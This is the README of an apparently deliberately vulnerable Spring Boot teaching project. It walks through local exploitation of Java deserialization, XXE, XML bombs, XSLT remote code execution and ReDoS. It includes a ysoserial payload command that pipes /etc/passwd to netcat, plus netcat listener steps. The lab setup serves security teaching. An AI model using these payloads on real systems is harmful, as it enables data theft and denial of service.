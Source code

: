 # Spring Boot - Backend vulnerabilities examples

## Movies with exploitation of:
### - [Unsafe Java object deserialization](https://drive.google.com/open?id=1YmJzBR355nG0v9avQdMEbOX7ddq99-N_)
### - [XML External Entity (XXE)](https://drive.google.com/open?id=1j6UKJ1fp96cjEh2Cc18N9stsNgGcj2Pg)
### - [XML bombs](https://drive.google.com/open?id=1FVg0YzWJyiSPPx3SPB7FBa3iYFuGTgTe)
### - [RCE with XSLT](https://drive.google.com/open?id=1rBPmZQQ5y13uCjRMvdu_f0Zi8eKJDuuo)
### - [ReDoS](https://drive.google.com/open?id=1_gjB1LlI_IvASfAKtE-eLKBGFIT1Oh_S)


## Run & exploit

### Payloads
Payloads for exploitation can be found in payload folder of the project and its subdirectories.

### Unsafe Java object deserialization
- Generate payload with ysoserial toolkit (https://github.com/frohoff/ysoserial)
`java -jar ysoserial.jar CommonsCollections5 'bash -c {cat,/etc/passwd}|{nc,127.0.0.1,1234}' > serialization_issue.dat`
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee'
- Upload 'serialization_issue.dat' prepared with ysoserial toolkit
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### XML External Entity (XXE)
- Run application
`mvn spring-boot:run`
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XEE' from imported collection
- Check response of server to read /etc/passwd content

### XML bombs
- Run application with additional parameters
`mvn spring-boot:run -Djdk.xml.entityExpansionLimit=0 -Djdk.xml.entityReplacementLimit=0 -Djdk.xml.totalEntitySizeLimit=0`
Note that you turn off upper boundary limits for XML parser. Additional `-Xmx1024m` parameter could be added in case memory would be consumed too quickly.
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XML Bomb' from imported collection
- Monitor usage of CPU and Memory for java process

### RCE with XSLT
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee-xslt'
- Copy payload available in file 'xml_payload_attendee.txt' to field with 'XML' label
- Copy payload available in file 'xslt_payload_attendee.txt' to field with 'XSLT' label
- Press 'Transform button'
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### ReDoS
- Run application
`mvn spring-boot:run`
- Open in browser 'http://localhost:8080/attendeemng'
- Fill in fields 'First Name', 'Last Name' with arbitrary values
- Fill in 'Email' field with multiple 'a' characters eg. 'aaaaaaaaaaaaaaaaaaaaaaaaaa' and press 'Add Attendee'
- Retry addition of attendee with email that has additional 'a' characters until validation doesn't finish in "reasonable" time amount.
